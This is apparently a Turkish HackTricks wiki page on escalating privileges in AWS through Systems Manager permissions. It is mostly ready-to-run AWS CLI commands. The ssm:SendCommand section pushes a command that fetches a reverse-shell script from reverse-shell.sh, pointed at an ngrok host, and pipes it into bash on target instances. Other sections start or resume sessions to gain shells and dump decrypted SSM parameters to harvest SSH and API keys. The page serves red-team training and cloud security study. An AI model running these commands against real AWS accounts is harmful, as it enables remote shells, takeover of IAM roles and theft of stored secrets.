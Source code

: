 # AWS - SSM Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## SSM

SSM hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

**`ssm:SendCommand`** iznine sahip bir saldırgan, **Amazon SSM Agent'ı çalıştıran örneklerde komutlar çalıştırabilir** ve **içinde çalışan IAM Rolünü tehlikeye atabilir.**
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
Eğer bu tekniği zaten ele geçirilmiş bir EC2 örneği içinde yetki yükseltmek için kullanıyorsanız, rev shell'i yerel olarak şu şekilde yakalayabilirsiniz:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Potansiyel Etki:** SSM Agent'ları çalışan örneklere bağlı EC2 IAM rollerine doğrudan yetki yükseltme.

### `ssm:StartSession`

**`ssm:StartSession`** iznine sahip bir saldırgan, **Amazon SSM Agent'ı çalışan örneklerde SSH benzeri bir oturum başlatabilir** ve **içinde çalışan IAM Rolünü tehlikeye atabilir.**
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Bir oturum başlatmak için **SessionManagerPlugin**'in kurulu olması gerekir: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Olası Etki:** SSM Agent'ları çalışan örneklere bağlı EC2 IAM rollerine doğrudan yetki yükseltme.

#### ECS'ye Yetki Yükseltme

**ECS görevleri** **`ExecuteCommand` etkinleştirildiğinde** yeterli izinlere sahip kullanıcılar `ecs execute-command` kullanarak **bir komut çalıştırabilirler** konteyner içinde.\
[**belgelere**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) göre bu, “_exec_“ komutunu başlatmak için kullandığınız cihaz ile hedef konteyner arasında güvenli bir kanal oluşturarak yapılır. (Bunun çalışması için SSM Session Manager Plugin gereklidir)\
Bu nedenle, `ssm:StartSession` iznine sahip kullanıcılar, bu seçenek etkinleştirildiğinde ECS görevleri içinde **bir shell alabileceklerdir** sadece şunu çalıştırarak:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Potansiyel Etki:** `ExecuteCommand` etkin olan çalışan görevlere bağlı `ECS` IAM rollerine doğrudan yetki yükseltme.

### `ssm:ResumeSession`

**`ssm:ResumeSession`** iznine sahip bir saldırgan, Amazon SSM Agent'ı çalıştıran örneklerde **bağlantısı kesilmiş** SSM oturum durumu ile bir SSH benzeri oturumu yeniden **başlatabilir** ve içindeki IAM Rolünü **tehdit edebilir**.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Potansiyel Etki:** Çalışan örneklere bağlı EC2 IAM rollerine doğrudan yetki yükseltme ve SSM Ajansı çalışan ve bağlantısı kesilmiş oturumlar.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Belirtilen izinlere sahip bir saldırgan, **SSM parametrelerini** listeleyebilecek ve **açık metin olarak okuyabilecektir**. Bu parametrelerde sıklıkla **hassas bilgiler** bulabilirsiniz, örneğin SSH anahtarları veya API anahtarları.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Olası Etki:** Parametreler içinde hassas bilgileri bulma.

### `ssm:ListCommands`

Bu izne sahip bir saldırgan, gönderilen tüm **komutları** listeleyebilir ve umarım bunlarda **hassas bilgileri** bulabilir.
```
aws ssm list-commands
```
**Olası Etki:** Komut satırlarında hassas bilgileri bulmak.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Bu izinlere sahip bir saldırgan, gönderilen tüm **komutları** listeleyebilir ve **üretilecek çıktıyı** okuyarak umarım **hassas bilgileri** bulabilir.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Potansiyel Etki:** Komut satırlarının çıktısında hassas bilgileri bulmak.

### Codebuild

Ayrıca, SSM'yi kullanarak inşa edilen bir codebuild projesine girebilirsiniz:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** bizi **takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
